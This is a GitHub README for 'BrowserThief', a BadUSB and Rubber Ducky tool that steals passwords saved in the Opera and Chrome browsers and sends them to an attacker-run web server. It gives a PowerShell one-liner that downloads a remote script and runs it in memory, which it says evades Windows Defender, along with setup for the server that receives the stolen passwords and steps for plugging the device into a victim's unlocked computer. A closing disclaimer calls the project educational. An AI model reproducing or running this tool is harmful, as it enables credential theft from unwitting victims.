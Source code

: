# BrowserThief
All in one Rubber Ducky/BadUSB that runs a powershell script to extract and steal browser-saved passwords and stash them at your Flask web server. It currently extract passwords from Opera/OperaGX/Chrome, I will be adding support for more browsers soon!
<br/><br/>
## Features
- The powershell script can be run in-memory without writing to disk which evades Windows Defender detection
- Includes an arduino RubberDucky script that runs in less than 2 seconds
<br/><br/>
## Setup

- Setup the web server that catches the passwords

```console
foo@bar:~$ sudo apt install docker.io
```

```console
foo@bar:~$ git clone https://github.com/ScribblerCoder/BrowserThief
```

```console
foo@bar:~$ cd BrowserThief/Web
```

```console
foo@bar:~$ sudo bash build-docker.sh
```
<br/><br/>
## Instructions

-  To simply run the powershell script 
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/ScribblerCoder/BrowserThief/main/BrowserThief.ps1');pumpndump -hq http://<Your-IP>:1337;exit
```
- Or you can use the rubber ducky for stealth/speed
	- Needs an Arduino that supports `<Keyboard.h>` (Nano, Leonardo)
	- Install Arduino IDE from their [website](https://wiki-content.arduino.cc/en/software)
	- Open `RubberDuckyScript.ino` using the IDE and replace `https://dump.silvercryptor.xyz` with your IP, check out [Setup](https://github.com/ScribblerCoder/BrowserThief#Setup) to setup the Web server
	- Compile and upload the script to the arduino
	- Insert the usb to the victim's computer (needs to be unlocked)
	- Profit 💰💰💰
<br/><br/>
## PoC

### Victim POV
Just plug your bad usb and watch the magic
<p align="center">
<img src="test/victim.gif?raw=true" width="800">
</p>
<br/>

### Attacker POV
<p align="center">
<img src="test/attacker.gif?raw=true" width="800">
</p>

<br/>

## Credits

This project wouldn't exist without the guidance of these examples 

* https://github.com/thisismyrobot/chrome-decrypt.ps1
* https://github.com/ohyicong/decrypt-chrome-passwords
* https://github.com/p0z/CPD
* https://github.com/ValterBricca/SQLite.Net-PCL
* https://github.com/ericsink/SQLitePCL.raw
* https://github.com/byt3bl33d3r/chrome-decrypter
* https://github.com/agentzex/chrome_v80_password_grabber
* https://github.com/0xfd3/Chrome-Password-Recovery 

## Disclaimer

This is for educational purposes only. I bear no responsiblity for misuses of this project
